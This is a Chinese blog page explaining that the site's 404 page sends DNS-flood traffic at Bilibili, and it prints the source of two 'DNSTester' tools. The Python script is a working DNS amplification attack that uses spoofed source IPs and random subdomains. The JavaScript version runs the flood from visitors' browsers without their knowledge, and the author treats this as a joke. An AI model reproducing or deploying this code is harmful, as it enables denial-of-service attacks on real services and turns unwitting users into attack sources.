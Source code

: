 ```yaml
---
layout: page
permalink: "404page.html"
title:  "关于 404 页面"
---
```


大家在访问本站没有的页面时是不是会跳转到404页面呢？细心的人肯定会发现网页下方有一段话

> 事实上你访问一次404页面就相当于攻击了b站1000次哦~

面白いね？

实际上这是使用了 *cnBeining* 的 **DNSTester**。源码如下：

### Python版

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8
# Author:  Beining --<>
# Purpose: A most easy but powerful DNS tester
# Created: 01/15/2015

import os
import sys
import socket
import random
from multiprocessing.dummy import Pool as ThreadPool
from scapy import *
from scapy.all import *
import csv

global DNS_IP_LIST
DNS_IP_LIST = []
global FAKE_IP
FAKE_IP = ''
global SUCCESS
SUCCESS = 0

#----------------------------------------------------------------------
def dns_amp(qname_address):
    """"""
    global SUCCESS
    dns_ip = random.choice(DNS_IP_LIST)
    a = IP(dst=dns_ip,src=FAKE_IP) 
    b = UDP(dport=53)
    c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
    c.qd=DNSQR(qname=qname_address,qtype=1,qclass=1)
    p = a/b/c
    try:
        send(p)
        SUCCESS += 1
    except KeyboardInterrupt:
        print('FATAL: Quit!')
        print('Success: ' + str(SUCCESS))
        exit()
    except Exception as e:
        print('WARNING: DNSTest failed: %s' % e)
        traceback.print_exc()

#----------------------------------------------------------------------
def main(address, time, length, thread_num, fake_ip):
    """"""
    domain_list = [''.join(map(lambda xx:(hex(ord(xx))[2:]),os.urandom(int(length)))) + '.' + str(address) for i in range(int(time))]
    pool = ThreadPool(int(thread_num))
    results = pool.map(dns_amp, domain_list)
    #close the pool and wait for the work to finish 
    pool.close() 
    pool.join()

#----------------------------------------------------------------------
def read_dns_ip(filename = './nameservers.csv'):
    """"""
    dns_ip_list = []
    with open(filename, 'rb') as f:
        reader = csv.reader(f)
        for row in reader:
            if reader.line_num == 1:  
                    continue
            dns_ip_list.append(row[0])
    return dns_ip_list

#----------------------------------------------------------------------
if __name__=='__main__':
    address = str(sys.argv[1])
    time = int(sys.argv[2])
    thread_num = int(sys.argv[3])
    try:
        FAKE_IP = str(sys.argv[4])
    except:
        FAKE_IP = socket.getaddrinfo("www." + address, 80, 0, 0, socket.SOL_TCP)[0][4][0]
    try:
        dns_filename = str(sys.argv[5])
    except:
        dns_filename = './nameservers.csv'
    try:
        length = int(sys.argv[6])
    except:
        length = random.randint(6, 32)
    print('Reading DNS IP list...')
    DNS_IP_LIST = read_dns_ip(dns_filename)
    print('Start!')
    main(address, time, length, thread_num, FAKE_IP)
    print('Done! Success: ' + str(SUCCESS))
{% endhighlight %}

[Github](https://github.com/cnbeining/DNSTester){:target="_blank"}

### Javascript版：

{% highlight javascript %}
/*!
 * DNSTester.js 0.0.35
 * https://github.com/cnbeining/DNSTester.js
 * http://www.cnbeining.com/
 *
 * Includes jQuery
 * http://jquery.com/
 * 
 * Copyright 2015 Beining
 * Released under the GNU GENERAL PUBLIC LICENSE Version 2
 * https://github.com/cnbeining/DNSTester.js/blob/master/LICENSE
 *
 */
var COUNT = 0;
var STARTTIME = (new Date).getTime();
var DOMAIN = ".baidu.com/"; //Change me in caller
var MAX_COUNT = 50000;  //Change me in caller
var TPS = 100;  //Change me in caller
var TIMERID = 0; //To stop the test
function makeid_old(length)
{
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < length; i++ )
        text += possible.charAt(Math.floor(Math.random() * possible.length));
    return text;
}
function makeid_new(len) {
    //Only avalable in new browsers
    var arr = new Uint8Array((len || 40) / 2);
    window.crypto.getRandomValues(arr);
    text = [].map.call(arr, function(n) { return n.toString(16); }).join("");
    return text;
}
makeid = makeid_new; //asserting
try {
    test_msg = makeid(5)
}
catch(err) {
    console.log("New function not supported! " + err);
    makeid = makeid_old;
}
function r_send2() {
    if ((MAX_COUNT < 1 || COUNT >= MAX_COUNT) != true) {
          get("https://" + makeid(Math.floor((Math.random() * 64) + 1)) + DOMAIN) // NEVER FORGET, in case you use HTTPS
      };
    if (COUNT % 1000 == 0) { //report every 1000 times
          console.log('Done: ' + COUNT.toString())
      };
}
function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E-2, //So fail immediately, but good enough to stress DNS
        cache: !0,
        // beforeSend: function() {
        // requestTime = (new Date).getTime()
        // },
        complete: function() {
            COUNT += 1;
        }
        })
}
function r_send(a) {
    TIMERID = setInterval("r_send2()", a)
}
{% endhighlight %}

大家可以在[这里](/js/dnstester.js){:target="_blank"}或者 [Github](https://github.com/cnbeining/DNSTester.js){:target="_blank"} 上找到源码和使用方式。

***

404页面中设置的只有10秒，每秒100次而已，对b站基本上一点影响也没有，除非有很多人大量访问404页面，同样也是不可能的，所以只是增加404娱乐性，大可不必担心。

所以就来玩玩吧~ [404 Not Found~](http://www.fuckbilibili.com/404.html){:target="_blank"}
